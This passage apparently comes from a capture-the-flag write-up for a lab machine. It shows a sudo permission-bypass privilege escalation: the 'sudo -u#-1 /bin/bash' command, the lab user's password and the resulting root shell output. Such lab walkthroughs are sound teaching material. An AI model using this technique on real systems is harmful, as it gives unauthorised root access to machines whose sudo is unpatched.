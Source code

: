 So we can run /bin/bash as all users except for root. There is a not too long ago discovered vulnerability in older versions of sudo where we can elevate our command to root in such a configuration. <a href="https://bit-tech.net/news/tech/software/sudo-utility-hit-by-permission-bypass-vulnerability/1/">Info1</a>, <a href="https://www.exploit-db.com/exploits/47502">Info2</a>.

```
hugo@blunder:~$ sudo -u#-1 /bin/bash
Password: Password120

root@blunder:/home/hugo# whoami
root
```

We now have access to the root.txt flag.
